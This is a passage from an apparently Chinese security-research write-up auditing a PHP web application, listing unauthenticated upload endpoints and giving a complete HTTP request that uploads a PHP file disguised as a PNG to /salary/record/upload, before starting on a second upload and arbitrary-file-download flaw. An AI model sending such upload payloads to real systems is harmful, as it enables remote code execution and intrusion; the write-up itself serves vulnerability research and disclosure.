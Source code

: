 其实大部分都不能成功的(为啥？因为鉴权了，但是以下是存在未授权访问的)

- `contacts/default/upload`​
- `salary/record/upload`​
- `knowledge/default/upload`​​​​​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-1f91b7aeb31a6267a3123f50bab471a40cdff061.png)​​

而鉴权的代码是这样子的

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-69b9827fbc3812d3c8fbc985bea6793c877c8a26.png)​

最终报文

```xml
POST /index.php/salary/record/upload HTTP/1.1
Host: xxx
Content-Length: 196
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

&lt;?php phpinfo();?&gt;
------WebKitFormBoundaryQayVsySyhSwgpmLk--
```

​​

上传2 + 任意文件下载
------------

一样是全局搜索函数​`move_uploaded_file`​

找到`\web\static\lib\weboffice\js\OfficeServer.php`​这个文件(因为是在`static`​目录下于是就尝试访问下(因为很有可能是静态的资源可以直接访问))
